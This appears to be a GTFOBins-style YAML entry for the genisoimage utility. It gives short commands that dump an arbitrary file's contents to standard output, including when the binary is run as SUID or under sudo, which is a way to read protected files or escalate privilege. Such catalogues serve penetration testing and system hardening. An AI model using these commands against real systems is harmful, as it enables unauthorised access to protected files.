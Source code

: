 ```yaml
---
description: The output is placed inside the ISO9660 file system binary format thus it may not be suitable for binary content as is, yet it can be mounted or extracted with tools like `7z`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        genisoimage -q -o - "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./genisoimage -q -o - "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo genisoimage -q -o - "$LFILE"
---
```

